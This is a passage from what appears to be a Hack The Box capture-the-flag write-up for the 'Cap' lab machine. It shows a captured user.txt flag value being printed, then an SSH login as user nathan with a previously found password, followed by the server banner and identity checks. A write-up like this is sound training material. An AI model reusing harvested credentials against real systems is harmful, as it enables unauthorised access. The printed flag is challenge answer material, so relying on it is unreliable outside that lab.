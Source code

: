 It's working! And I downloaded `user.txt` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat user.txt
20e8b3a1a5a6b53974b1043b078ba7e7
```

### Try the found credential on ssh

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 19 11:27:41 UTC 2024

  System load:           0.08
  Usage of /:            36.7% of 8.73GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:1052

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7

nathan@cap:~$ whoami
nathan
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```
